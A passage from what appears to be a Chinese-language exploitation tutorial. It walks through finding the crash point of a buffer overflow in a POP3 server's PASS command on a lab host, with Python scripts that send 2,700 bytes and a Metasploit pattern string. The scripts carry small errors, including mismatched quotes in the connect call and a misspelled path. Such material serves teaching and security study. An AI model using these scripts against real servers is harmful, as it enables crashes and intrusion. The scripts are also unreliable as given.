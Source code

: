
![Paste_Image.png](http://upload-images.jianshu.io/upload_images/1571420-b22e7bf55799bb22.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


在右侧的 `Register` 中，`EIP` 寄存器中所存放的的下一条指令的地址。通过 `EIP` 寄存器我们做蛮多有意思的事情，就是当发现缓存区溢出以后如去利用。

运行 `02.py` 脚本程序，我们每次递增 100 个字节向目标服务器发起请求数据，可以看到当发送的字节数达到 3000 bytes 时，程序崩溃了，说明 `PASS` 指令确实存在缓冲区溢出，而为了得到更加精确的崩溃临界点，我们有了 `03.py` 脚本程序。

##### 03.py
```
#!/usr/bin/python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer = "A" * 2700
try:
    print "\nSending evil buffer..."
    s.connect('192.168.1.12", 110)
    data = s.recv(1024)
    s.send('USER admin' + '\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nDone!."
except:
    print "Could not connect to POP3"
```

通过，`03.py` 脚本首先发送了 2700 个 "A",发现程序也崩溃了，于是尝试减少发送的数据量为 2600 个 "A"，发现程序还是崩溃了，但是与 2700 个字符串导致的崩溃不同，2600 个 "A" 并没有完全覆盖 EIP 寄存器，这意味着我们得到了一个区间，在 2700~2600之间，我们离潘多拉的魔盒又近了一步，现在，我们有两种方式去尝试打开盒子，一个是二分法，不断的细分这个区间的值，虽然这种方式有点笨，但是终归是可以找到真理的。或者，可以试试唯一字符串的方式。

Python 中自带了一个能生成唯一字符串的脚本程序 `pattern_create.rb`

```
./usr/shaer/metasploit-framework/tools/exploit/pattern_create.rb 2700
// 生成2700个唯一字符串 {str}
```

我们将 {str} 字符串替换掉 `03.py` 中的 "A"，得到 `04.py`：

##### 04.py

```
#!/usr/bin/python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer = "str"
try:
    print "\nSending evil buffer..."
    s.connect('192.168.1.12", 110)
    data = s.recv(1024)
    s.send('USER admin' + '\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nDone!."
except:
    print "Could not connect to POP3"
```

